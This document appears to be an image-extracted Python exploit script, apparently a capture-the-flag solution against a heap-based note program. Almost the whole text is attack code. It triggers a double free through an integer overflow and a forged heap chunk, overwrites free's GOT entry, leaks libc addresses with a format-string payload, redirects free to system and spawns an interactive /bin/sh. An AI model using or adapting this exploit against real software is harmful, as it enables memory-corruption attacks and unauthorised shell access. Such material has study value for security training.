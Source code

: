 ```
libcstartmain_ret_off = 0x21ec5
sys_off = 0x46640
# 1. int overflow lead to double free
intoverflow = -9223372036854775808
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,p64(0x400ef8))
malloc(512,'/bin/sh\0')
# 2. make a fake chunk and modify the next chunk's pre size
fakechunk = p64(0) + p64(512+1) + p64(0x6020e0-0x18) + p64(0x6020e0-0x10) + 'A'*(512-32) + p64(512) + p64(512+16)
edit(3,'aaaaaa')
edit(intoverflow,fakechunk)
# 3. double free
free(4)
# 4. overwrite got
edit(3,free_got)
edit(0,printf_plt+printf_plt)
# 5. leak the stack data
edit(3,p64(0x6020e8))
edit(0,'%llx.'*30)
#free->puts
print conn.recvuntil('>>')
conn.sendline('4')
print conn.recvuntil('note:')
conn.sendline(str(0))
#time.sleep(0.3)
ret =  conn.recvuntil('success')
print ret
# 6. calcuate the system's addr
libcstart = ret.split('.')[10]
libcstart_2 = int(libcstart,16) - libcstartmain_ret_off
print 'libc start addr:',hex(libcstart_2)
system_addr = libcstart_2 + sys_off
print 'system_addr:',hex(system_addr)
# 7. overwrite free's got
edit(3,free_got)
edit(0,p64(system_addr)+printf_plt)
# 8. write argv
edit(3,p64(0x6020d0))
edit(0,'/bin/sh\0')
# 9. exploit
print conn.recvuntil('>>')
conn.sendline('4')
print conn.recvuntil('note:')
conn.sendline(str(0))
sleep(0.2)
conn.interactive()
```
